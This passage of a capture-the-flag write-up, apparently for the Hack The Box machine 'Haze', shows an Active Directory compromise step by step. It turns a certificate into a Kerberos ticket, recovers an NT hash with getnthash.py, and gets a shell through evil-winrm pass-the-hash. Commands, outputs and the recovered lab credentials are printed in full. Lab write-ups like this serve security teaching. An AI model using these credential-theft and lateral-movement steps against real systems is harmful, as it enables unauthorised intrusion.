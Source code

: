 Let's use these keys to grab a TGT by authenticating to `pkinit`.

```bash
ntpdate haze.htb;gettgtpkinit.py -cert-pfx 'Kf14H5Si.pfx' -pfx-pass 'J9bzmigt4JPrq6u6JvoW' "haze.htb"/'edward.martin' 'edward.ccache'

2025-03-30 18:48:26.850061 (+1100) +28801.948943 +/- 0.014062 haze.htb 10.10.11.61 s1 no-leap
CLOCK: time stepped by 28801.948943
2025-03-30 18:48:27,134 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-30 18:48:27,169 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-30 18:48:34,508 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-30 18:48:34,508 minikerberos INFO     ee19a2b8ebb7aa220a4d886c93af9c50e5e732c93f268967d70398d0b3af572b
INFO:minikerberos:ee19a2b8ebb7aa220a4d886c93af9c50e5e732c93f268967d70398d0b3af572b
2025-03-30 18:48:34,514 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Using this `TGT` we can grab our `NThash` using `getnthash.py`

```bash
ntpdate haze.htb; KRB5CCNAME=edward.ccache getnthash.py 'haze.htb'/'edward.martin' -k ee19a2b8ebb7aa220a4d886c93af9c50e5e732c93f268967d70398d0b3af572b

2025-03-30 18:53:58.346629 (+1100) +28801.949234 +/- 0.013470 haze.htb 10.10.11.61 s1 no-leap
CLOCK: time stepped by 28801.949234
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

> Note that we can do all of this in just one command using `certipy-ad shadow`
{:.info}

We have gained access over `edward.martin`

`edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af`

Let's try to `winrm` 

```bash
evil-winrm -i 10.10.11.61 -u 'edward.martin' -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

Just like that we have User!
